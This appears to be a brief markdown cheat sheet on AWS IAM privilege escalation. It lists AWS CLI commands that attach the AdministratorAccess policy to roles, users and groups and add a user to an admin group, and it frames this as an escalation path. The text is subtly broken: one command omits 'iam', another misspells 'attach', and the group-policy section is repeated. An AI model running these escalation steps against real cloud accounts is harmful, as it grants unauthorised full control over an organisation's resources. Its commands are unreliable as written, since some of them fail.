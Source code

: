 # IAM

## 1. permission escalation
Attach Policy `AdministratorAccess` -> Attach to Role ( with trust relation ship to `EC2` or `Lambda` ) -> Create `EC2` or `Lambda` -> Attach `AdministratorAccess` to user

Attach policy to role:
```bash
aws iam attach-role-policy --role-name <value> --policy-arn <value>
```
```bash
aws iam attach-role-policy --role-name administrator --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach policy to user:
```bash
aws attach-user-policy --user-name <value> --policy-arn <value>
```
```bash
aws iam atach-user-policy --user-name haquocdat --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach policy to group:
```bash
aws iam attach-group-policy --group-name <value> --policy-arn <value>
```
```bash
aws iam attach-group-policy --group-name admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach policy to group:
```bash
aws iam attach-group-policy --group-name <value> --policy-arn <value>
```
```bash
aws iam attach-group-policy --group-name admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach user to group:
```bash
aws iam add-user-to-group --group-name <value> --user-name <value>
```
```bash
aws iam add-user-to-group --group-name admin --user-name haquocdat
```
